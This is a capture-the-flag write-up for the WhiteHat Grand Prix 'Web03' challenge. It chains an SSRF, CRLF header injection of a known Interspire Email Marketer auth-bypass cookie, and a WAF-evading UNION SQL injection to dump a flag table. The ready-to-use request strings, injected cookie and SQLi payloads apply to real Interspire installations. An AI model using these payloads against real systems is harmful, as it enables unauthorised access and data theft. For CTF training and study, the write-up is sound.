Web03  
Description: None  
web03.grandprix.whitehatvn.com:1337  
Solves: 10  
Points: 410  
Team: OpenToAll  

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are  
used to load remote web pages in the style of:

Host: 202.182.120.169:1337
Urlpath: index.php
Request = http://202.182.120.169:1337/index.php



In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,  
I did a port scan of the localhost network. Using Burp Intruder I checked every  
port with requests:

Host: 127.0.0.0:{var}  
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.



From here on, I used Burp  
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly  
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML



At the time of writing this, I'm noticing that the output looks a LOT better if  
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,  
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!  




I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,  
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.



However, URL encoding any of these characters worked perfectly.  
`UNION` becomes `%55NION` (%55 == 'U')  
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)





From here it's very standard MySQL injection. Using the payloads here:  
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my  
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```




Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```




`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not  
the intended solution. Apparently there's some other method to exploit it,  
but I have no idea what it is.
